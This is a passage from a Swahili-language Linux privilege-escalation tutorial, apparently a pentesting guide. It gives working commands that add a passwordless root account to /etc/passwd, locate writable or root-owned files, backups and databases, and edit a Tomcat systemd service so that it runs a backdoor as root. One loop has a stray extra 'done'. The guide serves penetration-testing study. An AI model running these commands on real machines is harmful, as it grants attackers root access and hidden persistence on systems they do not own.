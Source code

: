 Vinginevyo, unaweza kutumia mistari ifuatayo kuongeza mtumiaji wa bandia bila nywila.\ ONYO: huenda ukapunguza usalama wa mashine.
```
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```
TAARIFA: Katika majukwaa ya BSD `/etc/passwd` iko `/etc/pwd.db` na `/etc/master.passwd`, pia `/etc/shadow` imebadilishwa kuwa `/etc/spwd.db`.

Unapaswa kuangalia kama unaweza **kuandika katika baadhi ya faili nyeti**. Kwa mfano, je, unaweza kuandika kwenye baadhi ya **faili ya usanidi ya huduma**?
```bash
find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' 2>/dev/null | grep -v '/proc/' | grep -v $HOME | sort | uniq #Find files owned by the user or writable by anybody
for g in `groups`; do find \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null | grep -v '/proc/' | grep -v $HOME; done #Find files writable by any group of the user
```
Kwa mfano, ikiwa mashine inaendesha seva ya **tomcat** na unaweza **kubadilisha faili ya usanidi wa huduma ya Tomcat ndani ya /etc/systemd/,** basi unaweza kubadilisha mistari:
```
ExecStart=/path/to/backdoor
User=root
Group=root
```
Backdoor yako itatekelezwa mara ijayo tomcat itakapowashwa.

### Kagua Mafolda

Mafolda yafuatayo yanaweza kuwa na chelezo au taarifa za kuvutia: **/tmp**, **/var/tmp**, **/var/backups, /var/mail, /var/spool/mail, /etc/exports, /root** (Huenda hutaweza kusoma ya mwisho lakini jaribu)
```bash
ls -a /tmp /var/tmp /var/backups /var/mail/ /var/spool/mail/ /root
```
### Mahali Ajabu/Faili Zilizomilikiwa
```bash
#root owned files in /home folders
find /home -user root 2>/dev/null
#Files owned by other users in folders owned by me
for d in `find /var /etc /home /root /tmp /usr /opt /boot /sys -type d -user $(whoami) 2>/dev/null`; do find $d ! -user `whoami` -exec ls -l {} \; 2>/dev/null; done
#Files owned by root, readable by me but not world readable
find / -type f -user root ! -perm -o=r 2>/dev/null
#Files owned by me or world writable
find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' ! -path "/proc/*" ! -path "/sys/*" ! -path "$HOME/*" 2>/dev/null
#Writable files by each group I belong to
for g in `groups`;
do printf "  Group $g:\n";
find / '(' -type f -or -type d ')' -group $g -perm -g=w ! -path "/proc/*" ! -path "/sys/*" ! -path "$HOME/*" 2>/dev/null
done
done
```
### Faili zilizobadilishwa katika dakika chache zilizopita
```bash
find / -type f -mmin -5 ! -path "/proc/*" ! -path "/sys/*" ! -path "/run/*" ! -path "/dev/*" ! -path "/var/lib/*" 2>/dev/null
```
### Faili za Sqlite DB
```bash
find / -name '*.db' -o -name '*.sqlite' -o -name '*.sqlite3' 2>/dev/null
```